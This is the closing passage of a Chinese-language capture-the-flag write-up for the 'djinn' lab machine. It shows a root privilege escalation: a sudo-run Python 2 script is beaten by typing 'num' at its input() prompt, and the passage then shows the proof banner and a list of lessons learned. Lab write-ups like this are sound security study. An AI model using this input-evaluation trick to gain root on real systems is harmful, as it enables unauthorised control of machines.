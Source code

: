 ```python

if __name__ == '__main__':
    main(options())
```

看见 python2 input 函数，可以尝试绕过，`if s == num` ，当输入的参数 为 num 时，便进入了这个 if

```bash
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
# ./proof.sh
    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
Path: /root
Date: Tue Aug 15 13:38:24 IST 2023
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)
```

# 总结

- python 写关于 应用程序运行中的交互脚本
- 被拦截时，可以 fuzz 大法来一步步尝试出它拦截哪些字符串，再来想办法
- .pyc 文件可反编译成 py 文件
- python2 input 函数有缺陷



